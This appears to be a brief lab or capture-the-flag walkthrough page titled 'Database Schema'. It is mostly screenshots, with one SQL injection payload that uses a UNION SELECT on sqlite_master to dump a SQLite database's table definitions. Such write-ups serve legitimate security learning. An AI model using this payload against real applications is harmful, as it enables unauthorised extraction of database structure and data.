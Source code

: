# Database Schema

![alt text](assets/databaseschema1.png)

![alt text](assets/databaseschema2.png)

![alt text](assets/databaseschema3.png)

![alt text](assets/databaseschema4.png)

```sql
apple'))+UNION+SELECT+sql,2,3,4,5,6,7,8,9+FROM+sqlite_master+--
```

![alt text](assets/databaseschema5.png)

![alt text](assets/databaseschema6.png)
